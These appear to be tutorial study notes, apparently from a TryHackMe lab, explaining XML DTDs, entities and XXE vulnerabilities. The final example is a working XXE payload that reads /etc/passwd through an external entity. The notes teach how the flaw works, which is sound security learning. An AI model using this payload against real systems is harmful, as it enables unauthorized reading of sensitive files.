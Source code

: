 A DTD defines the structure of an XML document, ensuring consistency and adherence to specific rules. It serves as a blueprint, similar to a database schema

```xml
<!DOCTYPE people [
   <!ELEMENT people(name, address, email, phone)>
   <!ELEMENT name (#PCDATA)>
   <!ELEMENT address (#PCDATA)>
   <!ELEMENT email (#PCDATA)>
   <!ELEMENT phone (#PCDATA)>
]>

```

- **`<!ELEMENT>`**: Defines the tags allowed in the document.
- **`#PCDATA`**: Specifies that the content (parsed data) is plain text.

---

# Entities in XML

Entities act as placeholders to manage reusable or external data in XML documents. They simplify XML management, especially for repeated data or referencing external files.

### Example External Entity:

```xml
<!DOCTYPE people [
   <!ENTITY ext SYSTEM "http://tryhackme.com/robots.txt">
]>
<people>
   <name>Glitch</name>
   <address>&ext;</address>
   <email>glitch@wareville.com</email>
   <phone>111000</phone>
</people>
```

---

# XML External Entity (XXE) Vulnerability

**XXE** exploits XML parsers' handling of external entities. If the parser processes an untrusted XML file containing malicious entities, it may expose sensitive data or execute malicious code.

```xml
<!DOCTYPE people[
   <!ENTITY thmFile SYSTEM "file:///etc/passwd">
]>
<people>
   <name>Glitch</name>
   <address>&thmFile;</address>
   <email>glitch@wareville.com</email>
   <phone>111000</phone>
</people>
```
